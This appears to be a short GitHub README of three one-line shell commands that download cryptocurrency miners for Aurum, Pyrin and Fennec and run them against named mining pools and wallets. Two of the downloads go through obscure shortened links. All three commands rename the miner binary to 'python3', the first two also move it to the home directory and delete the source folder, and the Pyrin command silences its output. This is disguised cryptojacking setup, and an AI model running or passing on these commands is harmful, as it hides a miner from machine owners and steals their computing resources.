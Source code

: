 # POEK SAGALANA
BUKAN MANUSIA BAIK, BUKAN JUGA MANUSIA JAHAT
===========================================================================
# DOT AURUM
```
apt install screen -y && wget https://bit.ly/kontolrum && tar -xvf kontolrum && rm kontolrum && cd SRBMiner-Multi-2-4-7 && mv SRBMiner-MULTI python3 && mv python3* ~/ && cd .. && rm -rvf SRBMiner-Multi-2-4-7 && cd ~/ && screen ./python3 --algorithm aurum --pool stratum-asia.rplant.xyz:7114 --wallet waf1qs7djrfr2kj4w8qkylva5tr24500l3nael0l34g.DOT --keepalive true
```
===========================================================================
# DOT PYRIN
```
apt install srceen -y && wget bit.ly/dotgpulol && tar -xf dotgpulol && rm dotgpulol && cd 1.84 && mv lolMiner python3 && mv python3* ~/ && cd .. && rm -rvf 1.84 && cd ~/ && screen ./python3 -a PYRIN --pool kr.pyrin.herominers.com:1177 --user pyrin:qq5fnz6aelfdruhshjpul598fxyeqfkjh86cvypt2902mghd0ql7gy7g799ff.DOT --no-cl > /dev/null 2>&1
```
===========================================================================
# DOT FENNEC
```
wget https://github.com/cpu-pool/cpuminer-opt-cpupower/releases/download/1.4/Cpuminer-opt-cpu-pool-linux64.tar.gz && tar -xf Cpuminer-opt-cpu-pool-linux64.tar.gz && rm Cpuminer-opt-cpu-pool-linux64.tar.gz && mv cpuminer python3 && ./python3 -a yescryptr16 -o yescryptR16.asia.mine.zergpool.com:6333 -u FaVNktSU4RWiM5oU1PbThRaW85TG2P8ZZc -p c=FNNC,mc=FNNC,ID=DOT
```
